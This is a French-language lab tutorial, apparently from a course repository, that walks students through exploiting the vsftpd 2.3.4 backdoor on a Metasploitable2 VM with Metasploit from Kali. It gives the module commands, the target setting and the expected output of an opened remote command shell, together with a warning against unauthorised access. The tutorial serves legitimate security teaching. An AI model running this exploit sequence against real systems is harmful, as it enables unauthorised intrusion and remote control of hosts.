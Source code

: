 # Vulnérabilités: Utilisation d'un exploit Metasploit pour ouvrir une "backdoor" sur la machine Metaspoitable.

Metasploit est un framework d’exploitation de vulnérabilités

🚩 Attention il est interdit d'accéder à des systèmes sans autorisation🏴‍☠️

Support : 

* VM Kalilinux avec utilisation de **metasploit**
* VM Linux vulnérable Metaspoitable

Réseau :

Le réseau doit être en **Accès par pont**
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Mise%20_en_r%C3%A9seau_.md


## Objectif :

✨ Vous devez trouver puis exploiter une vulnérabilité sur la machine vulnérable Metaspoitable avec le framework Metasploit installé sous la VM Kalilinux. On utilisera un exploit afin d'ouvrir la backdoor.

-----

## Prérequis 1 :

Nous allons utiliser la VM Linux vulnérable Metaspoitable
##### Création de la VM Metasploitable2 sous VirtualBox
https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_Metasploitable2/Creation_VM_Metaspoitable..md

##### Un fois active et sur le réseau déterminer son adresse IP
* Connaitre l'adrese IP de la cible ici la VM2. voir https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_IP/readme.md
-----

## Méthode

Lancer **Metasploit** sous Kalilinux

Tapez le mot de passe de kalilinux

  msf6>

On va rechercher les services et leurs versons avec Nmap.

https://github.com/profelecmed/profelecmed/blob/main/Cybers%C3%A9curit%C3%A9/VM_kali_Nmap/Nmap_scanne_Ports_%26_applications_versions.md

réponse attendue:
>
> Starting Nmap 7.95 (https://nmap.org) at ....
>
> ....

>Port     STATE    Service    Version
>
> **21/tcp   open  ftp   vsf......**
>
>  .....

**vsftpd** est un serveur FTP.

On va rechercher avec Metasploit s'il existe des vulnaréabilité sur les **vsf...**

    search vsftpd
    
réponse attendue:
>
>Names  Description Date Rank ...
>
>0 aux .....
>
>1 exploit/unix/ftp/vsftpd-234_backdoor ... 2011-07-03  ecellent  No

Ici on voit qu'il a trouvé un exploit : **exploit/unix/ftp/vsftpd-234_backdoor** , avec le nom on peut en déduire qu'il y a une backdoor.

On va chercher plus d'informations

      info exploit/unix/ftp/vsftpd-234_backdoor

réponse attendue:
>
> Name: vsftpd .............
>
> Module: exploit/unix/...........
>
>.....
>
>Provides by:
>
> Basic options:    Names : **RHOSTS**
>
> Payload information:
>
>Description:
>** This module exploits a malicious backdoor .....
>
>References:
>

On va utiliser cette vulnérabilité

    use exploit/unix/ftp/vsftpd-234_backdoor

msf6 exploit(unix/ftp/vsft...backdoor) >
 
RHOST signifie Remote Host "hôte distant". C'est l'adresse IP de la machine cible, ici metaspoitable. On note RHOSTS si on veut définir une ou plusieurs adresses IP cibles.


    set RHOST 192.168.56.XX
 * Set permet de leur attribuer une valeur à RHOST , ici l'adresse IP de la VM linux vulnérable Metasploitable.


Un **exploit** est un module qui permet d'exploiter une vulnérabilité spécifique sur un système cible.

    exploit

réponse attendue:
>
> [*] 192.168.56.XX:21 - Banners: 220 ......
>
>.....
>
> [*]  Command shell session 1 opened (192.168.101:42107  --> 192.168.56.XX:6200 at 2025-06-14 10:31:05 +0200

------
